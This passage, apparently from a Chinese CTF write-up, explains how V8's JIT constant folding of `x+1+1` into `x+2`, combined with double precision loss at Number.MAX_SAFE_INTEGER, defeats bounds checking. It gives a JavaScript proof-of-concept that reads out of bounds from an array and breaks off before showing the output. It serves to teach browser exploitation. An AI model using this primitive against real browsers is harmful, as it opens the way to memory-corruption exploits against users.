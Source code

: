 之后它会将两个常数结点运算后替换成 `x+constant` ，这样在执行时就能减少一次运算了。

> 这里的加法即为 JIT 优化层面的运算，我们可以考虑这样一种情况：
>
> * Index\[x] 未越界，可执行
> * Index\[x+1+1] 未越界，可执行
> * Index\[x+2] 越界，不可执行

不知您是否发现了某些问题，如果我们在代码层面写的是 `Index[x+1+1]` ，那么它是一条可执行的语句，而如果写 `Index[x+2]` 则会被检查出越界；那如果我们写入 `Index[x+1+1]` 使其通过检查后，让优化器把这段语句自动优化成了 `Index[x+2]` ，是否就能够绕过边界检查实现越界读写呢？

> 如果您熟悉 C 语言或是其他类似的编程语言，那么你或许不会认为把 `1+1` 优化为 `2` 是一种不合理的选择，但由于在 JavaScript 中的整数实际上是通过 double 类型的浮点数表示，因此就有可能在运算时发生问题。 例如，`Number.MAX_SAFE_INTEGER` 就表示能够安全运算的最大整数，超出该数的运算就有可能发生上述问题，但它并不禁止你使用这类整数，因此在编写代码时需要程序员自己注意。

我们可以直接上代码试试这个事实：

```shell
V8 version 7.3.0 (candidate)
d8> x=Number.MAX_SAFE_INTEGER
9007199254740991
d8> x=x+1
9007199254740992
d8> x=x+1
9007199254740992
d8> x=x+1
9007199254740992
```

这个事实在各个版本中都存在，尽管它并不一定算是个问题，但和题目的优化机制结合就变得可以利用了。

#### 一个简单的越界

```js
function oob(x)
{
	var double_array=[1.1,2.2,3.3,4.4];
	//Number.MAX_SAFE_INTEGER=9007199254740991;
	let t=(x==0)?Number.MAX_SAFE_INTEGER-2:Number.MAX_SAFE_INTEGER+1;
	//Range(9007199254740991-2,9007199254740991+1);
	t=t+1+1;
	//优化前:Range(9007199254740991,9007199254740991+1);
	//优化后:Range(9007199254740991,9007199254740991+3);
	t=t-9007199254740989;
	//优化前:Range(2,3)
	//优化后:Range(2,5)
	return double_array[t];
}
console.log(oob(0));
console.log(oob(1));
%OptimizeFunctionOnNextCall(oob);
console.log(oob(1));
```

执行它将会打印出如下内容：
